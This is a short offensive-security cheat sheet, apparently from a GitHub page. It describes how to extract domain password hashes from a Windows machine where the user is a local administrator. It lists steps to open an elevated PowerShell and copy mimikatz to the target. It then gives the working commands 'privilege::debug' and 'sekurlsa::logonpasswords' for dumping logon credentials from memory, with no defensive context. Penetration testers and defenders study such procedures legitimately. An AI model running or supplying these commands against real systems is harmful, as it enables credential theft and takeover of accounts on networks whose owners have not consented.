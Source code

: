 Domain Hashes can be extracted from machines where the user is a local administrator.
# Step 1:
Launch powershell prompt with elevated privileges.
# Step 2:
Transfer mimikatz to target.
# Step 3:
Dump credentials.
```
privilege::debug
```
```
sekurlsa::logonpasswords
```
